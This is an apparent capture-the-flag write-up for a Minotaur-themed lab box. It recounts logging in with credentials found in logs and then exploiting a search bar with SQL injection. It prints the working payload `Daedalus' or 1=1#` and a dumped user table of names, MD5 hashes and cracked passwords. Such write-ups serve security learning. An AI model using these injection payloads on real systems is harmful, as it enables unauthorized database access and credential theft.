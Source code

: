 you can reconstitute daedalus password solving it, but me I just found them in logs

![labyrinth](login.jpg)

Now we can login...and there is a search bar...

with the sql database and phpmyadmin installations we found all this now scream SQLI

And the source code says

```
<!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->
```

first we try what we know and get

```
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6
```

Sql injection is an art that require patience

We try deadalus + common payloads

And this works

`Daedalus' or 1=1#`

```
1 Eurycliedes 42354020b68c7ed28dcdeabd5a2baf8e //greeklover
2 Menekrates 0b3bebe266a81fbfaa79db1604c4e67f //greeksalad
3 Philostratos b83f966a6f5a9cff9c6e1c52b0aa635b //nickthegreek
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6 //g2e55kh4ck5r
5 M!n0taur 1765db9457f496a39859209ee81fbda4 //aminotauro
```
